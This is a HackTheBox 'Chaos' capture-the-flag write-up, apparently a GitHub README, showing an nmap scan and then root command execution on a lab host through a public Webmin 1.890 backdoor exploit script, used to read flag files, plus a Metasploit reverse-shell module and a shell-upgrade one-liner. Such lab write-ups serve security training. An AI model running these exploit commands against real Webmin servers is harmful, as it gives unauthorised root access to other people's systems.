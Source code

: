 # HTB-Chaos
HackTheBox Chaos Machine WriteUp

10.10.10.120

PORT      STATE SERVICE  VERSION
80/tcp    open  http     Apache httpd 2.4.34 ((Ubuntu))
|_http-server-header: Apache/2.4.34 (Ubuntu)
|_http-title: Chaos
110/tcp   open  pop3     Dovecot pop3d
|_ssl-date: TLS randomness does not represent time
| ssl-cert: Subject: commonName=chaos
| Subject Alternative Name: DNS:chaos
| Not valid before: 2018-10-28T10:01:49
|_Not valid after:  2028-10-25T10:01:49
|_pop3-capabilities: STLS CAPA SASL RESP-CODES TOP AUTH-RESP-CODE UIDL PIPELINING
143/tcp   open  imap     Dovecot imapd (Ubuntu)
| ssl-cert: Subject: commonName=chaos
| Subject Alternative Name: DNS:chaos
| Not valid before: 2018-10-28T10:01:49
|_Not valid after:  2028-10-25T10:01:49
|_ssl-date: TLS randomness does not represent time
|_imap-capabilities: listed have ENABLE STARTTLS capabilities IMAP4rev1 more LOGINDISABLEDA0001 ID SASL-IR OK Pre-login IDLE post-login LOGIN-REFERRALS LITERAL+
993/tcp   open  ssl/imap Dovecot imapd (Ubuntu)
| ssl-cert: Subject: commonName=chaos
| Subject Alternative Name: DNS:chaos
| Not valid before: 2018-10-28T10:01:49
|_Not valid after:  2028-10-25T10:01:49
|_imap-capabilities: listed LOGIN-REFERRALS have capabilities ENABLE more IMAP4rev1 ID SASL-IR OK Pre-login IDLE post-login AUTH=PLAINA0001 LITERAL+
|_ssl-date: TLS randomness does not represent time
995/tcp   open  ssl/pop3 Dovecot pop3d
| ssl-cert: Subject: commonName=chaos
| Subject Alternative Name: DNS:chaos
| Not valid before: 2018-10-28T10:01:49
|_Not valid after:  2028-10-25T10:01:49
|_pop3-capabilities: SASL(PLAIN) CAPA USER RESP-CODES TOP AUTH-RESP-CODE UIDL PIPELINING
|_ssl-date: TLS randomness does not represent time
10000/tcp open  http     MiniServ 1.890 (Webmin httpd)
|_http-server-header: MiniServ/1.890
|_http-title: Site doesn't have a title (text/html; Charset=iso-8859-1).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Looking closer at the port 10000 webmin server, I try to log in with default credentials but nothing really sticks.
After some tries, I start to capture the login requests to look for interesting headers.
The webmin miniserv 1.890 is part of the header once more, and I make a quick google search for any relevant
vulnerabilities or exploits.
Lo and behold, i find the following repository:
https://github.com/foxsin34/WebMin-1.890-Exploit-unauthorized-RCE

This sounds extremely promising, so I pull the script and fire it up:
  
  $ python3 webminExploit.py 10.10.10.120 10000 id
  This gives me the id command, great success.

  Lets see which user we got access as:
  $ python3 webminExploit.py 10.10.10.120 10000 whoami
    root 

  Oh my!

  Lets find the user flag
  $ python3 webminExploit.py 10.10.10.120 10000 "ls /home/"
  $ python3 webminExploit.py 10.10.10.120 10000 "ls /home/ayush/"
  $ python3 webminExploit.py 10.10.10.120 10000 "cat /home/ayush/user.txt"

  And the root flag
  $ python3 webminExploit.py 10.10.10.120 10000 "cat /root/root.txt"


If you want a reverse shell, and don't mind using metasploit, the following module gives you a reverse shell as root:

  msf6 exploit(linux/http/webmin_backdoor) > exploit

Remember to upgrade the shell with python:

	python3 -c "import pty;pty.spawn('/bin/bash');"
	root@chaos:/usr/share/webmin/
